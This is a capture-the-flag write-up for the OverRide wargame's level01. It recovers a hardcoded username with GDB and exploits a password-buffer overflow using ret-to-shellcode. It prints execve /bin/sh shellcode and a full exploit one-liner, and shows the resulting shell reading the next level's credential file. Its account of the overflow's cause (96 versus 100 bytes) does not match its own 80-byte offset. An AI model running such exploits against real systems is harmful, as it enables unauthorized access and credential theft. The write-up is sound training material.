 # Level01

At this level (level01) also i found a binary file whan run it he want username and  password  

```nasm
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

Enter Password:
nope, incorrect password...

level01@OverRide:~$
```

## **Binary Analysis**

After examining the program with GDB, I found the username and password:

```nasm
(gdb) disas 0x8048464
[...]
   0x08048478 <+20>:	mov    $0x804a040,%edx
   0x0804847d <+25>:	mov    $0x80486a8,%eax
[...]
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
(gdb)
```

The username is `dat_wil` 

```nasm
(gdb) disas 0x80484a3
[...]
   0x080484ad <+10>:	mov    $0x80486b0,%eax
[...]
End of assembler dump.
(gdb) x/s 0x80486b0
0x80486b0:	 "admin"
(gdb)
```

The password is `admin`, but it is not working. Now, we try another approach.

```nasm
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$
```

The program primarily takes a username as input. The `main` function calls `verify_user_name`, which compares the first **7 bytes** of the provided username with a hardcoded string `"dat_wil"`.

```nasm
0x08048464 <+0>:     push   %ebp
0x08048478 <+20>:    mov    $0x804a040,%edx    # Username buffer
0x0804847d <+25>:    mov    $0x80486a8,%eax    # "dat_wil"
0x08048482 <+30>:    mov    $0x7,%ecx          # Compare 7 bytes
0x0804848b <+39>:    repz cmpsb %es:(%edi),%ds:(%esi)
```

If the username check succeeds, the program proceeds to verify the password. The `main` function calls `verify_user_pass`, which compares **5 bytes** of the input password with another hardcoded value.

```nasm
0x080484a3 <+0>:     push   %ebp
0x080484ad <+10>:    mov    $0x80486b0,%eax    # Password comparison
0x080484b2 <+15>:    mov    $0x5,%ecx          # Compare 5 bytes
0x080484bb <+24>:    repz cmpsb %es:(%edi),%ds:(%esi)
```

than the function returns to `main`, which then prints  "nope, incorrect password...\n”

```nasm
gdb) disas main
...
   0x080484d8 <+8>:	sub    $0x60,%esp ;Allocates 96 bytes for stack frame
...
   0x08048519 <+73>:	movl   $0x100,0x4(%esp) ;Size parameter for fgets 256 bytes
   0x08048521 <+81>:	movl   $0x804a040,(%esp)
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 ...
   0x08048565 <+149>:	movl   $0x64,0x4(%esp); Size parameter for fgets 100 bytes
   0x0804856d <+157>:	lea    0x1c(%esp),%eax
   0x08048571 <+161>:	mov    %eax,(%esp)
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    0x1c(%esp),%eax
   0x0804857d <+173>:	mov    %eax,(%esp)
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  ...
   0x08048597 <+199>:	movl   $0x804871e,(%esp) ; nope, incorrect password...\n
...
End of assembler dump.
(gdb) x/s 0x804871e
0x804871e:	 "nope, incorrect password...\n"
(gdb)
```

## **Vulnerability**

Buffer Overflow in Password Input:

```nasm
; Stack frame allocation
20x080484d8 <+8>:     sub    $0x60,%esp         ; Allocates 96 bytes (0x60)
;fgets call for password
50x08048565 <+149>:   movl   $0x64,0x4(%esp)    ; Reads 100 bytes (0x64)
60x08048574 <+164>:   call   0x8048370 <fgets@plt>
```

The vulnerability exists because:

- Stack frame allocates 96 bytes (0x60)
- Program tries to read 100 bytes (0x64)
- This 4-byte difference allows buffer overflow

## **Exploit**

Now, we find the offset by trying to generate input multiple times to overflow the second input.

```python
(python -c 'print "dat_wil\n" + "A"*80 + "BBBB"'; cat) | ./level01
```

The offset to EIP is 80 bytes. Now, we find the start address of our shellcode in the first input.

```python
(gdb) info variables
...
0x0804a040  a_user_name    # This is our target buffer
```

We find the start address of the global buffer and have 7 characters of the username `dat_wil`. The shellcode start is `0x0804a040 + 7 = 0x0804a047`.

```python
username = "dat_wil" + shellcode + "\n"
password = "A"*80 + "\x47\xa0\x04\x08"  # 0x0804a047 points to shellcode
```

Final exploit:

```nasm
 (python -c 'print "dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "A"* 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
```

Memory Layout

```python
Global buffer (0x0804a040):
[dat_wil][shellcode]
   7b      21b
    |         |
    |         +-> 0x0804a047 (shellcode start)
    +-> 0x0804a040 (buffer start)

Stack:
[80 'A's][Return Address]
```

the resulte :

```python
level01@OverRide:~$ (python -c 'print "dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "A"*80 + "\x47\xa0\x04\x08"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```

## Flag

```python
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```